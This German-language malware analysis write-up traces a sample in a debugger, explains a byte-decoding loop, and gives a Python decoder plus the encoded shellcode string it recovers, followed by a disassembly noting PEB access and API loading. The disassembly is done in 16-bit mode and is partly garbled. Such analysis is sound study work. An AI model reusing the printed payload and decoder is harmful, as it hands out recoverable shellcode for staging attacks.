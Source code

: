 1. Das EIP (Entry Instruction Pointer) wurde manuell auf die Adresse 0x00401000 gesetzt.

2. Wir haben mehrmals den Befehl "Step Over" verwendet, bis wir die Adresse 0x00401037 erreicht haben.
➤ Was sich geändert hat:
Der Funktionsname wurde manuell zu "CreateFileA" umbenannt, um die Lesbarkeit und Analyse zu erleichtern.
Der Wert von EAX hat sich von 0x00000000 auf 0x000000EC geändert.

3. Wir haben weiterhin den Befehl "Step Over" ausgeführt, bis wir die Adresse 0x0040105E erreicht haben. Dort blieb die Ausführung jedoch blockiert und konnte nicht fortgesetzt werden. Erst nachdem im Speicher vollständiger Zugriff (Full Access) auf die Adresse 0x0040105E gewährt wurde, konnte die Analyse mit dem nächsten Schritt fortgesetzt werden.
➤ Was sich geändert hat:
EAX = 0x00000CB5 ⇒ AL = 0xB5 (niedrigstes Byte von AX)
Wert 0xB5 wurde in den Speicher geschrieben
EDI = 0x00401069 (Zieladresse)
ESI = 0x0040106A (Quelladresse oder nächste Instruktion)
ECX = 0x017C (380 dezimal)

4. Wir haben weiterhin den Befehl "Step Over" verwendet, bis wir erneut die Adresse 0x0040105E erreicht haben, an der die Instruktion "STOSB" (AA) ausgeführt wurde. STOSB speichert ein Byte aus dem Register AL in eine bestimmte Speicheradresse.

Die Adresse 0x0040105E befindet sich innerhalb einer Schleife, die wie folgt aufgebaut ist:

```
0040104C | AC            | LODSB         ; lädt ein Byte von [ESI] in AL
0040104D | 66:2D 6100    | SUB AX, 0x61  ; Subtrahiert 0x61 von AX
00401051 | 66:C1E0 04    | SHL AX, 4     ; Shiftet AX um 4 Bit nach links
00401055 | 66:8BD0       | MOV DX, AX    ; Kopiert AX nach DX
00401058 | AC            | LODSB         ; Lädt nächstes Byte in AL
00401059 | 2C 61         | SUB AL, 0x61  ; Subtrahiert 0x61 von AL
0040105B | 66:03C2       | ADD AX, DX    ; Addiert DX zu AX
0040105E | AA            | STOSB         ; Speichert AL in [EDI]
0040105F | 49            | DEC ECX       ; Dekrementiert ECX
00401060 | 75 EA         | JNE 0040104C  ; Springt zurück, wenn ECX ≠ 0
```

Die Schleife liest bei jeder Iteration zwei kodierte Zeichen, wandelt sie in einen binären Wert (4 Bit + 4 Bit) um, und schreibt das resultierende Byte in einen Speicherpuffer.
Dieser Vorgang wird 380 Mal wiederholt (ECX = 0x017C), um ein Payload aus 760 Zeichen zu rekonstruieren.

5. Wir haben weiterhin "Step Over" verwendet, bis wir die Adresse 0x0040106A erreicht haben. Dort wurde die Instruktion "IN AL, DX" (Opcode: EC) ausgeführt.

Die Instruktion "IN AL, DX" liest ein Byte von einem I/O-Port, dessen Adresse im Register DX gespeichert ist, und speichert es im Register AL.

Um zu analysieren, worauf genau diese Instruktion zugreift, haben wir die verschlüsselte Zeichenkette ab der Adresse ESI = 0x0040106A extrahiert und mit einem Python-Skript entschlüsselt.

Das verwendete Python-Skript:

```python
encoded = "Yl_mYd_mfmfdfgfh]hef`abbaaaaaa_jboabaaaaYpef`mge[bdaaaaaaaYleaamYlhabm[nYlfiaiYjfn_mYlen`aYlhn`mfbYlef_mYlhadmYlheaghiad`afgYlhgcaad`add]jejeb[nadef_mdd^lap\\\\obadk^gheai]b]lanad^kea_l`bdlbphf_gfoYlfoceadfn_mggYlamelYlfobmadfn_mYlaeYladef_m[lfj_c\\\\fdd]aYjef_iYjef_eYdef_eaegkaaYlef_efaYlen`m`pfbbaYjef`eYdhn`e`phegnYbhn`eaacaaaaahnac_lgcgkeagiaabaaaaaYlff`efcgkaaYlef`m`pfadeYjef`igkaagkaagkaaYlen_efbYlff`m`pfcdagkaaYnef_ifaYlen`efbYlff`ifcYlef_efaYlen`m`pfbcmYlff`iadff`eYbhk`mgfgpggakhfac_lcagiaaYaaaaaYle"

data = [ord(c) for c in encoded]

def decrypt(data):
    decrypted = bytearray()
    i = 0
    while i < len(data) - 1:
        a = data[i]
        b = data[i + 1]
        val = ((a - 0x61) << 4) + (b - 0x61)
        decrypted.append(val & 0xFF) 
        i += 2
    return decrypted

decrypted_bytes = decrypt(data)

with open("decrypted_output.bin", "wb") as f:
    f.write(decrypted_bytes)
```

Das Skript generierte die Datei decrypted_output.bin, welche den entschlüsselten Shellcode enthält, der ursprünglich an der Adresse ESI = 0040106A gespeichert war.

Wir haben dann das Tool ndisasm verwendet, um diesen Binärcode zu disassemblieren. Das hat uns ermöglicht, die genaue Funktion der IN AL, DX-Instruktion zu erkennen. Die Ausgabe war wie folgt:
```asm
00000000  8BEC              mov bp,sp
00000002  83EC5C            sub sp,byte +0x5c
00000005  53                push bx
00000006  56                push si
00000007  57                push di
00000008  C745F01100        mov word [di-0x10],0x11
0000000D  0000              add [bx+si],al
0000000F  E91E01            jmp 0x130
00000012  0000              add [bx+si],al
00000014  8F45FC            pop word [di-0x4]
00000017  64A13000          mov ax,[fs:0x30]
0000001B  0000              add [bx+si],al
0000001D  8B400C            mov ax,[bx+si+0xc]
00000020  8B701C            mov si,[bx+si+0x1c]
00000023  AD                lodsw
00000024  8B5808            mov bx,[bx+si+0x8]
00000027  895DEC            mov [di-0x14],bx
0000002A  8B4DF0            mov cx,[di-0x10]
0000002D  8B7DFC            mov di,[di-0x4]
00000030  51                push cx
00000031  8B45EC            mov ax,[di-0x14]
00000034  8B703C            mov si,[bx+si+0x3c]
00000037  8B7406            mov si,[si+0x6]
0000003A  7803              js 0x3f
0000003C  F056              lock push si
0000003E  8B7620            mov si,[bp+0x20]
00000041  03F0              add si,ax
00000043  33C9              xor cx,cx
00000045  49                dec cx
00000046  41                inc cx
00000047  AD                lodsw
00000048  0345EC            add ax,[di-0x14]
0000004B  33DB              xor bx,bx
0000004D  0FABE1            bts cx,sp
00000050  039D6740          add bx,[di+0x4067]
00000054  7C0C              jl 0x62
00000056  B0D0              mov al,0xd0
00000058  2DA4FE            sub ax,0xfea4
0000005B  AF                scasw
0000005C  13B1F74E          adc si,[bx+di+0x4ef7]
00000060  65D8B5E240        fdiv dword [gs:di+0x40e2]
00000065  35CEC6            xor ax,0xc6ce
00000068  58                pop ax
00000069  B0C4              mov al,0xc4
0000006B  A8B5              test al,0xb5
0000006D  E1C0              loope 0x2f
0000006F  35CEB8            xor ax,0xb8ce
00000072  B038              mov al,0x38
00000074  B034              mov al,0x34
00000076  4E                dec si
00000077  BAB58E            mov dx,0x8eb5
0000007A  1BB533C0          sbb si,[di-0x3fcd]
0000007E  8945E8            mov [di-0x18],ax
00000081  8945E4            mov [di-0x1c],ax
00000084  8345E404          add word [di-0x1c],byte +0x4
00000088  6A00              push byte +0x0
0000008A  8B45E4            mov ax,[di-0x1c]
0000008D  50                push ax
0000008E  8B4DFC            mov cx,[di-0x4]
00000091  FF5110            call [bx+di+0x10]
00000094  8945F4            mov [di-0xc],ax
00000097  837DF4FF          cmp word [di-0xc],byte -0x1
0000009B  746D              jz 0x10a
0000009D  817DF40020        cmp word [di-0xc],0x2000
000000A2  0000              add [bx+si],al
000000A4  7D02              jnl 0xa8
000000A6  EB62              jmp short 0x10a
000000A8  6A40              push byte +0x40
000000AA  680010            push word 0x1000
000000AD  0000              add [bx+si],al
000000AF  8B55F4            mov dx,[di-0xc]
000000B2  52                push dx
000000B3  6A00              push byte +0x0
000000B5  8B45FC            mov ax,[di-0x4]
000000B8  FF5034            call [bx+si+0x34]
000000BB  8945F8            mov [di-0x8],ax
000000BE  6A00              push byte +0x0
000000C0  6A00              push byte +0x0
000000C2  6A00              push byte +0x0
000000C4  8B4DE4            mov cx,[di-0x1c]
000000C7  51                push cx
000000C8  8B55FC            mov dx,[di-0x4]
000000CB  FF5230            call [bp+si+0x30]
000000CE  6A00              push byte +0x0
000000D0  8D45E8            lea ax,[di-0x18]
000000D3  50                push ax
000000D4  8B4DF4            mov cx,[di-0xc]
000000D7  51                push cx
000000D8  8B55F8            mov dx,[di-0x8]
000000DB  52                push dx
000000DC  8B45E4            mov ax,[di-0x1c]
000000DF  50                push ax
000000E0  8B4DFC            mov cx,[di-0x4]
000000E3  FF512C            call [bx+di+0x2c]
000000E6  8B55F8            mov dx,[di-0x8]
000000E9  0355F4            add dx,[di-0xc]
000000EC  817AFC656F        cmp word [bp+si-0x4],0x6f65
000000F1  660A7502          o32 or dh,[di+0x2]
000000F5  EB20              jmp short 0x117
000000F7  680080            push word 0x8000
000000FA  0000              add [bx+si],al
000000FC  8B                db 0x8b
```

Die Instruktion MOV EAX, FS:[0x30], die wir bei Adresse 0x00000017 gefunden haben, zeigt, dass der Shellcode versucht, auf den Process Environment Block, also den PEB, zuzugreifen.

Das ist bei vielen Shellcodes ganz typisch – sie holen sich damit Infos über den Prozess, zum Beispiel wo genau die wichtigen DLLs wie kernel32.dll im Speicher liegen.

Danach werden Funktionen wie LoadLibrary oder GetProcAddress verwendet, um weitere Funktionen zu laden. So kann der Shellcode seine eigentliche Payload nach und nach ausführen – also genau das, was man bei einem staged Shellcode erwartet.
